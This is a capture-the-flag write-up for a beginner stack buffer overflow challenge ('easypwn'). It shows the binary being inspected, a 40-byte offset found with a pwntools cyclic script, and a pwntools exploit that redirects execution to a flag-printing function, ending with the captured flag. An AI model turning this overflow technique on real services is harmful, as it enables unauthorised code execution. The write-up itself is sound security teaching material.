








# EASYPWN - BUFFEER OVERFLOW Writeup

**Task Description:**

This task is a typical easy *buffer overflow* exploit. We were given 4 files including a fake flag and docker file so we can test if our payload works locally.





Examining the file by the command ```file easypwn```, we get to see that it is not stripped, meaning there is still debugging information inside as well as no security measures such as *ASLR (Address Space Layout Randomization), NX (No eXecute) bit, and Stack Canaries* that prevents buffer overflow exploits.


Here is a simple test that results in *segmentation fault* (overflow) in the buffer by adding a lot of A as the name.



**Let’s analyze the file!**

Now that we know that buffer overflow is doable, let’s see what function will print the flag. 
This command ```nm -C ./easypwn``` lets us see the memory address of the functions as well as read the function names of this executable. 




We see the **main function**, as well as **hello** and a **winner** function. Hmm let’s analyze this further using *ghidra*.



We see that the **winner function** is the one responsible for printing the flag. Since we already know the address for this function which is ```0x401236```, we only need to know the offset for our payload so we can exploit this program.

We can use this script to know the offset, which is the number of bytes we need to write to reach to the point where we can overwrite the return address or another critical part of the memory structure, which in this case we want to call the winner function to print the flag. 

```
from pwn import *

# Load the ELF
elf = ELF("./easypwn")

# Start the process
p = process("./easypwn")

# Send a cyclic pattern
p.sendline(cyclic(200, n=8))

# Wait for the process to crash
p.wait()

# Load the core dump
core = Coredump('./core')  # Adjust the path to your core dump file

# Find and print the offset
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print("Offset:", offset)
```
Offset we got is **40**



**Let’s start the exploit!**

Since were given a dockerfile, let’s run it first to test if the exploit works.

```sudo docker build -t easypwn .``` & ```sudo docker run -d -p 1024:1024 --rm -it easypwn```


We can use this script which also uses pwntools to test our payload locally.

```
from pwn import *

#to test on local net
p = remote ("127.0.0.1", 1024) 
#p = remote ("io.ept.gg", 30004)

print(p.recvline())

#0x401236 the memory address we want to access (Winner function)
RIP = p64(0x401236)
print(RIP)

# 40 is the offset + the payload (RIP)
p.sendline(b"A"*40+RIP)
print(p.recvline())
p.interactive()
```

The script demonstrates how to connect to a service, send a payload designed to overflow a buffer, and overwrite the program's instruction pointer to redirect the flow of execution to a specific memory address. 



After running the script locally we do get to see the fake flag! Now just to change the IP address in the script to the CTF address which is ```io.ept.gg:30004```, and then we get to see the flag for this challenge. 😊



```EPT{S0meth1n6_2_ge7_u_5t4rt3d}```